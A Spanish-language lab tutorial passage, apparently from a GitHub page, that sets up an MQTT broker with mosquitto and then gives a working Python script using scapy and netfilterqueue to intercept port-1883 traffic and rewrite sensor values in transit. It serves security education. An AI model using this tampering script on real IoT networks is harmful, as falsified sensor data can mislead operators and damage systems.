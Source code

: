 ##### ✅ En un cliente (Publisher):

```bash
mosquitto_pub -h 192.168.1.100 -t sensores/temp -m "24.5"
```

##### ✅ En otro cliente (Subscriber):

```bash
mosquitto_sub -h 192.168.1.100 -t sensores/temp
```

Verás en pantalla:
`24.5`

---

#### 🔥 Paso 3: Instalar herramientas de manipulación en Kali

```bash
sudo apt install python3-pip
pip3 install scapy netfilterqueue
```

---

#### 🧪 Paso 4: Script de manipulación MQTT (Polymorph-style)

Crea un archivo llamado `mqtt_modifier.py`:

```python
from netfilterqueue import NetfilterQueue
from scapy.all import *

def process(pkt):
    scapy_pkt = IP(pkt.get_payload())

    if scapy_pkt.haslayer(TCP) and scapy_pkt[TCP].dport == 1883:
        if scapy_pkt.haslayer(Raw):
            payload = scapy_pkt[Raw].load
            if b"24.5" in payload:
                print("[+] Mensaje MQTT detectado y modificado.")

                new_payload = payload.replace(b"24.5", b"99.9")

                scapy_pkt[Raw].load = new_payload
                del scapy_pkt[IP].len
                del scapy_pkt[IP].chksum
                del scapy_pkt[TCP].chksum

                pkt.set_payload(bytes(scapy_pkt))
    pkt.accept()

nfqueue = NetfilterQueue()
nfqueue.bind(0, process)

print("[*] Escuchando tráfico MQTT y manipulando en tiempo real...")
try:
    nfqueue.run()
except KeyboardInterrupt:
    print("[!] Cerrando...")
```

---